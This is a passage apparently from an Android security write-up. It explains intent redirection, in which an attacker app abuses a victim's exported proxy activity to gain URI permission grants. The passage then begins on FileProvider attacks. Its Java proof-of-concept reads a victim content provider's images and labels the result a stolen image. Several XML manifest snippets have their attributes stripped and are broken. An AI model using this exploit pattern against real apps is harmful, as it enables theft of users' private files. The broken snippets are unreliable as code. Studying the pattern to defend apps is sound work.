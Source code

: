 Example of the theft of user pictures `AndroidManifest.xml` file

```
<activity android: />


```

`MainActivity.java` file

```
Intent extra = new Intent();
extra.setFlags(Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION
        | Intent.FLAG_GRANT_PREFIX_URI_PERMISSION
        | Intent.FLAG_GRANT_READ_URI_PERMISSION
        | Intent.FLAG_GRANT_WRITE_URI_PERMISSION);
extra.setClassName(getPackageName(), "com.attacker.LeakActivity");
extra.setData(Uri.parse("content://com.victim.provider/"));

Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.ProxyActivity");
intent.putExtra("extra_intent", extra);
startActivity(intent);


```

`LeakActivity.java`

```
Uri uri = Uri.parse(getIntent().getDataString() + "image/1")); // content://com.victim.provider/image/1
Bitmap bitmap = BitmapFactory.decodeStream(getContentResolver().openInputStream(uri)); // stolen image


```

Attacks on Android File Provider
--------------------------------

This vulnerability also makes it possible for the attacker to steal app files located in directories that the developer predetermined. For a successful attack, the malign app needs to obtain access rights to Android File Provider and then read content from the file provider using Android ContentResolver.

Example file provider (for more details see [https://developer.android.com/reference/android/support/v4/content/FileProvider](https://developer.android.com/reference/android/support/v4/content/FileProvider))

```
<provider android:>
    <meta-data android:@xml/provider_paths"/>
</provider>


```

